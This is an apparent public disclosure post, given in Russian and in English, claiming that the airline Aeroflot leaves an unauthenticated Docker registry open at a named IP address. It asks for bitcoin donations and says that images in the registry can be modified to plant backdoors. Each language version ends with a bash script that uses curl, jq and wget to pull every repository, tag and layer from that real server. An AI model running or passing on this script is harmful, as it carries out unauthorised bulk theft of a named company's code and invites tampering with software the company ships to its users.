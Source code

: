 # Халатность авиакомпании "Аэрофлота" в защите данных.

На просторах интернета возможно найти много интересных данных, которые никак не защищаются в силу неграмотности или беспечности. Таким поведением страдают даже крупные корпорации. Одна из таких - авиакомпания "Аэрофлот". 
Компания хранит исходные коды всех своих веб-приложений в публичном доступе без какой либо аутентификации и шифрования. 

Для хранения исходников используется HTTP Docker. API докера доступно по адресу "http://89.208.149.202:5000/v2/".

Для получения списка всех репозитариев достаточно выполнить запрос "http://89.208.149.202:5000/v2/_catalog". 

Все репозитария никак не защищены и аутентификация отсутствует.

Получается годами весь исходный код всех внешних приложений авиакомпании "Аэрофлот" доступен публично и любой злоумышленник может их легко заполучить. Поэтому не удивительно, что данную корпорацию часто атакуют и что закономерно - удачно.
Через API так же возможно модифицировать файлы, что позволит внедрить свои закладки. Представляете масштаб проблемы, если этого не заметят программисты?

Возможно после этой публикации корпорация обратит внимание на свои проблемы и займется обеспечение информационной безопасности.

Так как поиск таких данных занимает много времени и ресурсов, поэтому прошу помочь в благотворительности. Полученные средства будут направлены на поиск других серьезных проблем в работе крупных корпораций из-за которых в первую очередь страдают пользователи услуг от этих самых корпораций.

Кто готов сделать пожертвонание прошу переводить средства на адрес bitcoin - `3HGaNTw5dfmGXHQuLsmTp9siKFqCLJSknk`

Так же предоставлю скрипт, которым можно выгрузить все данные:

```
for catalog in `curl "http://89.208.149.202:5000/v2/_catalog" -s -k|jq '.repositories'|awk -F "\"" {'print $2'}`; do

    mkdir /path/to/dir/`echo $catalog`/

    # Get list versions
    for revision in `curl -s -k http://89.208.149.202:5000/v2/$catalog/tags/list|jq '.tags[]'|awk -F "\"" {'print $2'}`; do

	mkdir /path/to/dir/`echo $catalog`/`echo $revision`/

	#Get lists blob for download file
	for blob in `curl -s -vv -k http://89.208.149.202:5000/v2/$catalog/manifests/$revision|jq '.fsLayers[] .blobSum'|awk -F "\"" {'print $2'}|sort|uniq`; do

	    wget "http://89.208.149.202:5000/v2/$catalog/blobs/$blob" -O /path/to/dir/$catalog/$revision/`echo $blob|awk -F ":" {'print $2'}`.tar.gz

	done
    
    done

done
```

# Negligence of the airline "Aeroflot" in the protection of data.

On the Internet, it is possible to find many interesting data that are not protected in any way due to illiteracy or carelessness. Even large corporations suffer from this behavior. One of these is the Aeroflot airline. The company stores the source codes of all its web applications in public access without any authentication or encryption. H

TTP Docker is used to store the sources. The docker is available at "http://89.208.149.202:5000/v2/".

To get a list of all the repositories, it is enough to execute the query "http://89.208.149.202:5000/v2/_catalog". 

All repositories are not protected in any way and there is no authentication.

It turns out for years that the source code of all Aeroflot external applications is publicly available and any attacker can easily get them. Therefore, it is not surprising that this corporation is often attacked and that it is natural - successfully.
Through the API, it is also possible to modify the files, which will allow you to implement your bookmarks. Can you imagine the scale of the problem if programmers do not notice it?

Perhaps after this publication, the corporation will pay attention to its problems and will take care of ensuring information security.

Since the search for such data takes a lot of time and resources, so I ask you to help in charity. The funds received will be directed to the search for other serious problems in the work of huge corporations because of which the users of services from these same corporations primarily suffer.

Who is ready to make a donation please transfer money to the address bitcoin - `3HGaNTw5dfmGXHQuLsmTp9siKFqCLJSknk`

I will also provide a script that can unload all the data:

```
for catalog in `curl "http://89.208.149.202:5000/v2/_catalog" -s -k|jq '.repositories'|awk -F "\"" {'print $2'}`; do

    mkdir /path/to/dir/`echo $catalog`/

    # Get list versions
    for revision in `curl -s -k http://89.208.149.202:5000/v2/$catalog/tags/list|jq '.tags[]'|awk -F "\"" {'print $2'}`; do

	mkdir /path/to/dir/`echo $catalog`/`echo $revision`/

	#Get lists blob for download file
	for blob in `curl -s -vv -k http://89.208.149.202:5000/v2/$catalog/manifests/$revision|jq '.fsLayers[] .blobSum'|awk -F "\"" {'print $2'}|sort|uniq`; do

	    wget "http://89.208.149.202:5000/v2/$catalog/blobs/$blob" -O /path/to/dir/$catalog/$revision/`echo $blob|awk -F ":" {'print $2'}`.tar.gz

	done
    
    done

done
```
